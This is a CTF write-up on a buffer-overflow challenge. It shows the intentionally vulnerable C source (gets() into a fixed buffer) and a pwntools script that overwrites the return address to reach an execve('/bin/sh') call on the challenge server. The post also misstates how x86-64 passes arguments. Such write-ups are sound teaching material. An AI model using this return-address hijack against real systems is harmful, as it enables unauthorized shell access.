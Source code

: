 ```yaml
---
title: "GPN-CTF: Overflows keep flowing" 
date: 2023-06-11 12:41:00 +0300
categories: ["pwn", "buffer overflows"]
tags: ["easy",'ctf' , "kitctf", "gpn-ctf", "intro-to-pwn"]
author: calvin-kimani
---
```


>This is the sequel to [overflow in the fl4gtory]({% post_url 2023-06-10-GPN-CTF-overflow-in-the-fl4gtory-writeup %})

{: .prompt-tip }

# Overflow in the Fl4gtory
## Challenge Description:

The "Overflows keep flowing" challenge presents a vulnerable program with a simple buffer overflow vulnerability. The objective is to exploit this vulnerability to gain control over the program and gain `remote code execution` by calling `execve` within the program, which will grant access to the flag.

![challenge desc](/assets/ctf/pwn/2023/KitCTF/overflows-keep-flowing/overflows-keep-flowing-desc.png)


### Vulnerable Code:
```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o overflows-keep-flowing overflows-keep-flowing.c

void shutoff(long long int arg1) {
	printf("Phew. Another accident prevented. Shutting off %lld\n", arg1);
	if (arg1 == 0xdeadbeefd3adc0de) {
		execve("/bin/sh", NULL, NULL);
	} else {
		exit(0);
	}
}

int main() {
	char buf[0xff];
	gets(buf);
	puts(buf);
	return 0;
}
```

## Vulnerable code explanation
The program hasn't changed that much from its predecessor. There's still the vulnerable buffer `buf`. The user is still prompted/required to enter input by the use of `gets` **(man gets)** where the input is then stored in buf and the written input displayed to the user by use of `puts(buf)` **(man puts)**

There's a new 'safety check' which we will gladly bypass. The shutoff function when called, checks whether it's one and only argument `arg1` is equal to the value of `0xdeadbeefd3adc0de` which in decimal is "1.6045691e+19". If they are equal, `execve` **man execve** from the standard library is called with `"/bin/sh"` as the program to run with no commandline arguments as seen by `NULL`. We can bypass this whole check by calling `execve` directly instead of `shutoff` as we did earlier. So we first need to know where it's located.

We fire up `gdb` with `gef` to search for it.

![gdb output](/assets/ctf/pwn/2023/KitCTF/overflows-keep-flowing/gdb.png)

>We could have pwned the binary by also just loading the `arg1` buffer with the required value but why complicate stuff. I'll explain how we can overwrite arguments with the desired value in a future post.
{: .prompt-tip }

## Exploitation

We know when a function is called during program execution, the called function's arguments are pushed on the stack in the reverse order of how they're declared! So we can't call `execve` directly because it will fail as it doesn't have it's required arguments. So we need to go back a few instructions to where it's arguments are being loaded in the right registers before it's called.
From the gdb output we can see this is 56 addresses from shutoff's addresses. Now we need to overwrite the ret with this address !!

We use the pwn library in Python to assist in building the payload and interacting with the target program.

```python
from pwn import *

context.terminal = ["konsole", "-e"]  # Substitute your terminal

# Find the location of the shutoff functions
elf = ELF("./overflows-keep-flowing")
shutoff_addr = elf.symbols["shutoff"]

# Craft the payload
payload = b"A" * 264
payload += p64(shutoff_addr+56)

# Launch the process and send the payload
# process = process("./overflows-keep-flowing")
# process.sendline(payload)
# process.interactive()

# remote server
target = remote('overflows-keep-flowing-0.chals.kitctf.de', 1337, ssl=True)
target.sendline(payload)

# Profit $$
print(target.recv())
target.interactive()
```

### reading the flag

After constructing the payload, we establish a connection to the target server using the provided IP address and port. We then send the payload to the program. Upon successful exploitation, the shutoff() function will be executed, and we can read the flag.

![program exploited](/assets/ctf/pwn/2023/KitCTF/overflows-keep-flowing/overflows-keep-flowing.png)

By leveraging the buffer overflow vulnerability in the "Overflows keep flowing" challenge, we successfully gained control over the program's execution flow and executed the shutoff() function to obtain the flag.


>Happy hacking :)
{: .prompt-tip }